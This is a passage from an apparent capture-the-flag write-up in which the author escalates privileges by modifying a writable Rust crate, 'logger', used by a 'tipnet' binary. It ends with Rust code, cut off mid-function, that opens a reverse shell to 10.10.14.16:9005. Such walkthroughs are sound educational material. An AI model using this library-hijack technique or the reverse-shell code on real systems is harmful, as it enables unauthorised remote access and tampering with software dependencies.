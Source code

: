 The atlas user doesn't have any write permissions. Based on the imports from the source code I know that the `tipnet` binary relies on an external library named `logger` from crates, whose source code is located at `/opt/crates/logger/src`.

```rust
extern crate logger;
use sha2::{Digest, Sha256};
use chrono::prelude::*;
use mysql::*;
```

It's interesting that I have write permissions on the `lib.rs` file in the `/opt/crates/logger/src` directory.

```bash
silentobserver@sandworm:/opt$ ls -la /opt/crates/logger/src
total 12
drwxrwxr-x 2 atlas silentobserver 4096 May  4  2023 .
drwxr-xr-x 5 atlas silentobserver 4096 May  4  2023 ..
-rw-rw-r-- 1 atlas silentobserver  732 May  4  2023 lib.rs
```

Returning to the `tipnet` source code and analyzing its usage of the `logger` library, it seems that the logger code is used at two locations:

1. When the `Upstream` mode is selected, and the justification value is empty, the log function from the `logger` library is executed.
```rust
  76   │     if justification.trim() == "" {
  77   │         println!("[-] No justification provided. TipNet is under 702 authority; queries don't need warrants, bu
       │ t need to be justified. This incident has been logged and will be reported.");
  78   │         logger::log(username, keywords.as_str().trim(), "Attempted to query TipNet without justification.");
  79   │         return;
  80   │     }
```

2. When the `Refresh Indices` mode is selected.
```rust
 194   │     logger::log("ROUTINE", " - ", "Pulling fresh submissions into database.");
```

### Cargo library hijack

In order to exploit this, I modified logger's source code. Specifically, I added a function to spawn a reverse shell whenever the log function is called.

```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;

use std::net::TcpStream;
use std::os::unix::io::{AsRawFd, FromRawFd};
use std::process::{Command, Stdio};

fn gimme_rev_shell() {
    let s = TcpStream::connect("10.10.14.16:9005").unwrap();
    let fd = s.as_raw_fd();
    Command::new("/bin/sh")
        .arg("-i")
        .stdin(unsafe { Stdio::from_raw_fd(fd) })
        .stdout(unsafe { Stdio::from_raw_fd(fd) })
        .stderr(unsafe { Stdio::from_raw_fd(fd) })
        .spawn()
        .unwrap()
```
